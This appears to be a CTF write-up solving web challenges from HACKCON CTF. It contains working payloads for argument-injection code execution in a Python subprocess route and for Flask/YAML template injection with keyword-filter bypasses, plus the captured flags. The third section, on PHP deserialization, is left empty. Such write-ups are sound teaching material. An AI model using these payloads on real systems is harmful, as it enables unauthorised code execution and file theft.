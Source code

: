 --------------

### HACKCON CTF 

----------------

![image](https://github.com/user-attachments/assets/2a3fdfd1-c616-4f65-9554-b4e9018fe752)

----------------

### Challenges-:

----------------

- Web-:
  - Processed Subscription
  - Flask ain't no markup language
  - Zeezy's notes

------------------

### Web

------------------

### Processed Subscription

------------------

![image](https://github.com/user-attachments/assets/edee15aa-4195-4a00-aa61-bb9f8c605ead)

------------------

- Source code analysis, code-:

```python
@app.route('/run_file', methods=['GET'])
def run_code():
    filename = request.args.get("code")
    if filename.endswith(".py"):
       response = subprocess.Popen(["python3",filename],stdout=-1).communicate()
       response =  response[0].decode()
       print(response)
    else:
        response = "Invalid file type"
    return jsonify({'result': response})
```
- The route `run_file` is vulnerable to argument injection.An attacker can control the filename variable and trigger `argument injection` to Remote Code Exection on the server.
- Testing it on a python interpreter before triggering it on the server.

![image](https://github.com/user-attachments/assets/104066ba-c520-4d52-aa79-4a9613c00ccc)

- Normally, Python should only execute a file in this state and should not be vulnerable to `argument injection`.
- Explaining the payload-:

```python3
-c\neval(\"__import__('os').system('id')\")
```

- The `-c` switch triggers the python interpreter, then we use `\n` to slip to the next line.Then, in the next line, we activate our payload.If we try it with the python interpreter, it'll be something like this.

![image](https://github.com/user-attachments/assets/f3f2a683-94ad-4c3e-9a4d-84e2480f27a4)

- Final Payload-:
```
-c%0aeval(\"__import__(\'os\').system('cat%20flag.txt')\")%23.py
```

- Flag-: ```gdscCTF{l0l_tw34k1ng_withSubpr0c3ss}```

```zsh
curl -G https://chall1.pxxl.xyz/run_file -d "code=-c%0aeval(\"__import__(\'os\').system('cat%20flag.txt')\")%23.py"
{"result":"gdscCTF{l0l_tw34k1ng_withSubpr0c3ss}\n"}
```

----------------

### Flask ain't no Markup Language

---------------

![image](https://github.com/user-attachments/assets/5fa6bf38-41f2-42f1-9866-0447c27c6504)

---------------

- Vulnerability is Flask Server Side Template Injection in `yaml`.While executing it, our payload will be place in yaml syntax e.g

```yaml
x: "{{7*7}}"
```

- Final payload-:

```
x: "{{config.__init__.__globals__.__getitem__('__BUILTINS__'.lower()).__getitem__('__IMPORT__'.lower())('OS'.lower()).popen('base64 /app/fl??/*.txt | base64 -d').read()}}"
```

- You can bypass the filtered strings by setting it to uppercase and passing it to python's lower function as soon as it is parsed.Lastly. the word `flag` gets filtered which you can bypass with regex e.g `fl?? should match flag`.
- Flag-: ```gdscCTF{4c4dae5677c29dcdcd06ba88565602fa}```

![image](https://github.com/user-attachments/assets/9bb1bb33-8913-4bf3-be94-5e2f4796dfe5)

----------------

### Zeezy's notes

-----------------

![image](https://github.com/user-attachments/assets/4c5c3982-9e3b-49ac-8c9c-e83fccba294e)

-----------------

- Vulnerability-: Php Insecure Deserialization(Privesc to Remote Code Execution)
- 



